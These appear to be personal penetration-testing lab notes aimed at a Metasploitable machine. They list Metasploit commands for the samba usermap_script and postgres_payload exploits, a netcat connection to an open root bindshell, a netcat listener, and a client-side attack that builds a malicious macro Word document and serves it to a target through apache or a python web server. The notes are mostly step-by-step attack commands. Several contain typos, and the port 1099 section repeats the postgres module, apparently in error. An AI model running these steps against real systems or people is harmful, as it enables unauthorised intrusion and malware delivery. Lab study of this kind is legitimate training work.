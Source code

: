 #### Using port 445 
1. use exploit/multi/samba/usermap_script
2. show targets
3. set target  ``< target-id >`` 0
4. show options
5. set LHOST 10.10.10.4
6. set RHOST 10.10.10.8
7. exploit 
#### Using port 1524 

1524/tcp open  bindshell   Metasploitable root shell

Connecting open port 
- natcat 
	- nc < listenerIP> ‹ListenerPort>
	- nc 10.10.10.6 1524

To open a port and start listening
- nc -lvp ``<port>``
- nc -lvp 5555
To check local port 
- netstat -antp


####  Using port 5432
1. use exploit/linux/postgres/postgres_payload
2. show options 
3. show target 
4. set target 0
5. set LHOST 10.10.10.4
6. set RHOST 10.10.10.6
7.  exploit 
####  Using port 1099
1. use exploit/linux/postgres/postgres_payload
2. 2. show options 
3. set LHOST 10.10.10.4
4. set RHOST 10.10.10.6
5.  exploit 
6. share http://10.10.10.4:8080/OhnIIQ
7. connect it 
 
- [x] DO it in windows 10 


# 07/04/25

Clint Side Attack

- Part 1 - Crate a malicious office word document
	- msfconsole -q
	- use exploit/muti/fileformat/office_word _macro
	- set FILENAME ``<file.doc/file.doc>``
- Part 2 - share the word document with the target 
	- LAN level attack 
	- cd /var/www/html/
	- mkdir  ``<dirname>``
	- cd  ``<dirname>``
	- mv ``</home/user/.msf4/local/file.docm>``
	- serivce appache2 start 
OR 
- Starting python server 
	- execution in this command  where file is located 
	- python3 -m http.server (defult port 8000)
	- starting in different port number 
	- python3 -m http.server ``<portnumber>``